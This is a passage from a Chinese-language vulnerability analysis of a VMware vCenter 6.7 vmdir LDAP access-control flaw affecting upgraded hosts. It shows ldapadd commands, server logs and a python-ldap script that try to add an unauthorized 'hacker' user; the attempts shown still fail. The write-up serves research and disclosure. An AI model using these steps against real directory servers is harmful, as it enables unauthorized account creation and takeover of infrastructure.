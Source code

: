 根据代码，某个地方应有一对键值，包含`acl-mode`及`enabled`（非传统模式）或者`disabled`（传统模式）字符串。可以肯定的是，（打补丁后的）`vmdir`数据库文件（`/storage/db/vmware-vmdir/data.mdb`）中多次出现`acl-modeenabled`字符串。将该字符串中的`enabled`修改为其他内容（由于`disabled`会修改字符串的大小，因此我们不要修改成`disabled`），重启`vmdir`后，我们就可以在`vmdird-syslog.log`中看到这个特征日志。

这也解释了为什么只有升级过的vCenter Server 6.7主机存在该漏洞，而全新安装的版本不受该漏洞影响。在升级后的6.7主机上，`vmdird`程序仍然存在漏洞。是否存在漏洞与ACL模式配置信息中的改动有关，全新安装的版本默认情况下采用非传统模式（启用了`acl-mode`），但升级版保留了之前的配置，默认启用的是传统模式。



## 0x04 漏洞利用

此时，我们需要澄清如何触发代码流，访问到存在漏洞的`VmDirLegacyAccessCheck`函数。

[![](./img/203285/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01b8dd4ed50a261542.jpg)

从调用关系图中，我们可知添加、修改以及搜索请求都会经过`VmDirLegacyAccessCheck`处理。

### <a class="reference-link" name="%E7%AC%AC1%E6%AC%A1%E5%B0%9D%E8%AF%95"></a>第1次尝试

我们首先安装`ldap-utils`，尝试使用错误的凭据在vCenter主机中添加一个用户：

```
root@computer:~# ldapadd -x -w 1234 -f hacker.ldif -h 192.168.1.130
 -D"cn=Administrator,cn=Users,dc=vsphere,dc=local"
ldap_bind: Invalid credentials (49)
```

并没有完成任务，来看一下`vmdird`的日志内容：

```
2020-04-15T14:20:56.079504+00:00 info vmdird  t@140564750137088: Bind failed () 
(9234)
2020-04-15T14:20:56.080409+00:00 err vmdird  t@140564750137088: 
VmDirSendLdapResult: Request (Bind), Error (49), Message (), (0) socket 
(192.168.0.254)
2020-04-15T14:20:56.080832+00:00 err vmdird  t@140564750137088: Bind Request 
Failed (192.168.0.254) error 49: Protocol version: 3, Bind DN: 
"cn=Administrator,cn=Users,dc=vsphere,dc=local", Method: Simple
```

看上去我们似乎并没有触及到该请求的`add`部分。`ldapadd`在对服务端执行任何命令之前，首先需要执行`bind`操作，但`bind`操作将返回`9234`错误（`VMDIR_ERROR_USER_INVALID_CREDENTIAL`）。那么是否有办法能绕过`bind`阶段呢？

我们安装了`python-ldap`，尝试自己执行该操作。

```
dn = 'cn=Hacker,cn=Users,dc=vsphere,dc=local'
modlist = {
    'userPrincipalName': ['hacker@VSPHERE.LOCAL'],
    'sAMAccountName': ['hacker'],
    'givenName': ['hacker'],
    'sn': ['vsphere.local'],
    'cn': ['Hacker'],
    'uid': ['hacker'],
    'objectClass': ['top', 'person', 'organizationalPerson', 'user'],
    'userPassword': 'TheHacker1!'
}

c = ldap.initialize('ldap://192.168.1.130')
c.add_s(dn, ldap.modlist.addModlist(modlist))

Traceback (most recent call last):
  File "do_ldap.py", line 27, in 
    print c.add_s(dn, ldap.modlist.addModlist(modlist))
...
ldap.INSUFFICIENT_ACCESS: {'info': u'Not bind/authenticate yet', 'desc': u'Insufficient access'}
```
